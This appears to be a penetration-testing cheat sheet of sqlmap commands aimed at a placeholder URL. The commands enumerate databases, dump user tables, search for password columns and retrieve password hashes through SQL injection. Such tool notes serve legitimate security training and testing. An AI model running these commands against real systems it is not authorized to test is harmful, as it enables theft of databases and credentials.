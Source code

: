 ```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```
### Full Database Enumeration

Instead of retrieving data from a single table, you can retrieve all tables from a specific database by omitting the `-T` option (e.g., using `--dump -D testdb`). By using the `--dump` option without specifying a table, SQLMap will extract the entire content of the current database. 

For retrieving data from all databases, the `--dump-all` switch can be used, which retrieves all content from every database. It is recommended to include the `--exclude-sysdbs` switch (e.g., `--dump-all --exclude-sysdbs`) to avoid extracting system database content, as it is often unnecessary for penetration testing.

## Advanced
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --schema
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --search -T user
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --search -C pass
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```
